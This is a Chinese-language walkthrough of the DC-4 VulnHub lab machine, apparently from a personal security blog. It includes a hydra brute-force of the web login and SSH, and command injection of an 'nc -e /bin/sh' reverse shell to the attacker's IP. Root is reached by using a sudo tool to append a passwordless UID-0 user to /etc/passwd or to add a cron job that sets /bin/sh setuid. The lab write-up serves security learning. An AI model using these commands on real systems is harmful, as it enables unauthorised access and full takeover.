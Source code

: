 ```yaml
---
title: DC_4靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_10.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false
---
```


# DC_4靶机渗透测试

[参考链接1](https://www.blacknight.top/2020/10/25/vulnhub_DC/#DC-4)

[参考链接2](https://www.anquanke.com/post/id/178658#h3-5)

[参考链接3]([DC4靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1803027?from=article.detail.1801074))

[参考链接4]([DC4-靶机_Au-CSDN博客](https://blog.csdn.net/Auuuuuuuu/article/details/100059696))



### 一、信息收集

- 扫描主机以及端口

[![R8FaCD.png](https://z3.ax1x.com/2021/06/26/R8FaCD.png)](https://imgtu.com/i/R8FaCD)

- 进入192.168.0.151：80

![image-20210626115918645](http://cdn.mxrblog.cn/image-20210626115918645.png)



- 可以看到上面说的是管理员信息系统登陆，于是以用户名为admin，用hydra进行密码爆破

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.151 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image-20210627222833305](http://cdn.mxrblog.cn/image-20210627222833305.png)

- 可以发现账号admin的密码是happy，登录一下看看，发现我们可以使用的几个命令

![image-20210627223132593](http://cdn.mxrblog.cn/image-20210627223132593.png)

![image-20210627232008658](http://cdn.mxrblog.cn/image-20210627232008658.png)



- 思路：网页上执行的是ls -l 命令，我们可以将网页发送的命令用brupsuite替换

![image-20210627231931042](http://cdn.mxrblog.cn/image-20210627231931042.png)

- 替换radio的参数为nc -e /bin/sh 192.168.0.145 4444

![image-20210628001837189](http://cdn.mxrblog.cn/image-20210628001837189.png)

![image-20210628001855516](http://cdn.mxrblog.cn/image-20210628001855516.png)

- 登录后获取交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

- 得到home文件夹下有三个用户目录：charles，jim，sam ，并在jim用户下发现了密码本

![image-20210628004915269](http://cdn.mxrblog.cn/image-20210628004915269.png)

- 将密码本复制，并用hydra破解用户密码

```
hydra -L user -P userpwd -t 6  192.168.0.151 ssh
```

![image-20210628012451900](http://cdn.mxrblog.cn/image-20210628012451900.png)

- 登陆后发现有新邮件，进入、/var/mail查看

![image-20210628014055664](http://cdn.mxrblog.cn/image-20210628014055664.png)

- 发现邮件里的charles用户密码为^xHhA&hvim0y 进行登录
- 然后用sudo -l 发现charles可以使用的root命令teehee，用teehee –help发现这是将信息写入写出的工具

![image-20210628021417969](http://cdn.mxrblog.cn/image-20210628021417969.png)

- 用teehee向passwd添加用户

- `/etc/passwd` 各个字段的含义：

  ```
  username:password:User ID:Group ID:comment:home directory:shell
  ```

  密码我们直接置空，uid和gid都是0，也就是root用户，也就是说覆盖了root账户，密码为0

  写入用户

  ```
  echo "admin::0:0:::/bin/bash" |sudo teehee -a /etc/passwd
  ```

![image-20210628022918219](http://cdn.mxrblog.cn/image-20210628022918219.png)



- 另一种解决方法，向任务计划中添加任务



```
通过定时任务执行脚本提权，向/etc/crontab文件中写入新的定时任务

通过teehee的sudo提升权限以 root身份写入crontab计划任务通过执行获取root权限

echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab 
时间部分全部填写为*，默认这个定时任务每分钟执行一次。

通过执行的脚本将 /bin/sh 的权限修改为4777，这样就可以在非root用户下执行它，并且执行期间拥有root权限。
```



![image-20210628024031625](http://cdn.mxrblog.cn/image-20210628024031625.png)
